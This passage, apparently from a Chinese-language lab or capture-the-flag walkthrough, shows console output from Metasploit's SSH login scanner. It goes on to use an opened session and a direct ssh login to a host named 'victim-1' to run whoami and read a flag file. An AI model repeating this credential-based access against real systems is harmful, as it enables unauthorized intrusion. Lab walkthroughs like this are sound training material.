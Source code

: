 可以与session进行交互：

```
msf5 auxiliary(scanner/ssh/ssh_login) > sessions 1
[*] Starting interaction with 1...

Welcome to Ubuntu 19.04 (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
/bin/bash -i
bash: cannot set terminal process group (683): Inappropriate ioctl for device
bash: no job control in this shell
sysadmin@victim-1:~$ whoami
whoami
sysadmin
sysadmin@victim-1:~$ ls
ls
sysadmin@victim-1:~$ cat /flag
cat /flag
eb09cc6f1cd72756da145892892fbf5a
```

还可以直接使用ssh命令行工具登录：

```
msf5 auxiliary(scanner/ssh/ssh_login) > ssh anon@192.20.21.3
[*] exec: ssh anon@192.20.21.3

anon@192.20.21.3's password: 
Welcome to Ubuntu 19.04 (GNU/Linux 5.4.0-125-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
-bash: warning: setlocale: LC_ALL: cannot change locale (en_US.UTF-8)
anon@victim-1:~$ whoami
anon
anon@victim-1:~$ find / -name flag*
/flag
anon@victim-1:~$ cat /flag
eb09cc6f1cd72756da145892892fbf5a
```

